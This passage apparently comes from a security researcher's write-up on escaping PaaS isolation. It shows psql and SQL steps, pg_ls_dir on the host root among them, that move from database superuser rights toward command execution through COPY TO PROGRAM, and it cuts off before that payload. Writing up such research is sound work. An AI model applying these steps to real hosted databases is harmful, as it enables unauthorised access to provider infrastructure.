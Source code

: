     ![](../images/paas-isolation/ssh-not-available.png)

Despite the lack of SSH access, I was able to get to execute system commands and get reverse shell on the machine. The platform provided a set of credentials for a PostgreSQL database instance, accessible directly from the user's local machine using the psql client. The connection was established via a URI in the following format:

!!! example ""
    ```bash
    psql "postgres://<user>:<password>@<host>:<port>/<dbname>"
    ```
Once connected, I confirmed the version and underlying OS using:

!!! example ""
    ```sql
    postgres=# select version();
    ```
    > PostgreSQL 14.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-44), 64-bit

As users are provided with super admin privileges, I proceeded to test functions typically restricted to high-privileged roles (e.g., users with the pg_read_server_files role). One such function is pg_ls_dir, which allows directory listing on the server:

!!! example ""
    ```sql
    postgres=# select pg_ls_dir('/');
    ```
    >boot dev proc 

The function successfully returned the contents of the root directory (/), confirming that the database user had elevated privileges on the underlying host OS.

To further validate the level of access, I tested for arbitrary command execution using PostgreSQL’s COPY TO PROGRAM feature. This function allows writing the output of a SQL query directly into a shell command, effectively enabling command injection from within the database context:
